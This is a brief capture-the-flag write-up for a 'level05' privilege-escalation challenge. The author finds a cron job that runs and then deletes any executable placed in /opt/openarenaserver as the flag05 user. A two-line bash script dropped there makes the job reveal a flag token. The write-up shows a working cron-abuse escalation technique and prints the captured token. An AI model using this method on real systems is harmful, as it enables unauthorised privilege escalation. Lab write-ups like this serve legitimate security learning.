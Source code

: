 -Nothing in home directory
-run find / -name level05 2>/dev/null
-got a cron that run a script every 2 mins
-The script run another script that iterate on every file in /opt/openarenaserver and execute it if its executable as flag05 user then delete it
-So. I created a script in /opt/openarenaserver that execute getflag and redirect it to a file in /tmp the script :
	#!/bin/bash
	
	getflag > /tmp/getflag 
-chmod +x scriptname
-then waited till it was deleted and cat /tmp/getflag => Check flag.Here is your token : viuaaale9huek52boumoomioc
